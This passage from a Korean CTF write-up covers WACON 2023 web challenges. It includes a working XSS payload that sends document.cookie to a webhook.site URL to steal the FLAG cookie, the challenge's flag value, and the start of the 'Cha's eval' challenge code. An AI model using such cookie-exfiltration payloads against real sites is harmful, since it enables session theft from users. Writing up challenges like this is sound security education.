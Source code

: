 ```yml
    ports:
      - "8000:80"
    volumes:
      - ./app/static:/var/www/html:ro
      - ./app/nginx.conf:/etc/nginx/conf.d/default.conf:ro
```

해당 payload가 성공적으로 작동하기위해서는 챌린지의 서버로 요청을 보내야하는데, 도메인이 "web"인 것을 알아낼 수 있습니다.

그러면 payload를 아래와 같이 구성해주어야합니다.

```js
http://web/#location.href="
https://webhook.site/b1d8c7e2-0203-453e-b7c6-8d36d365655c/?"+document.cookie;//%0alet 23a
```

webhook을 확인해보면 성공적으로 FLAG 쿠키를 읽어온 것을 볼 수 있습니다.

![Alt text](https://blog.kakaocdn.net/dn/cImwnR/btsv9LxzDmD/O9reMfu4Ncc84kSk0fcSx1/img.png)

#### FLAG : ``WACON2023{that-wasnt-so-funny-abc32f}``

# [WEB] Cha's eval

### TL;DR

> Eval Hooking 또는 CSP Bypass를 이용한 챌린지입니다.

### Description

> Do you know how JS eval() works? Then, how about these comments?
> 
> Note: The web server is running on 80 port inside the docker. (8000 => 80)

### Analyzsis

챌린지 사이트에 처음 접속해보면 아래와 같은 페이지를 확인해볼 수 있습니다.

![Alt text](https://blog.kakaocdn.net/dn/dNB18q/btsv0vW8bu7/hKbJufIAOzHAruzc1Knvk0/img.png)

script와 header, pow라는 3가지의 입력값을 받고 있는 것을 확인해볼 수 있습니다.

여기서 값을 입력하고 Submit 버튼을 누르게된다면 submit.php로 입력한 값들이 전달되게됩니다.

```php
<?php

include "config.php";

function error($msg) {
    die("
        <script>
            alert('$msg');
            //location.href = 'index.php';
        </script>
    ");
}

$header = $_POST["header"];
$script = $_POST["script"];
$pow = $_POST["pow"];

if(!isset($header) || !isset($script) || !isset($pow)) {
    error("Missing parameter");
}

```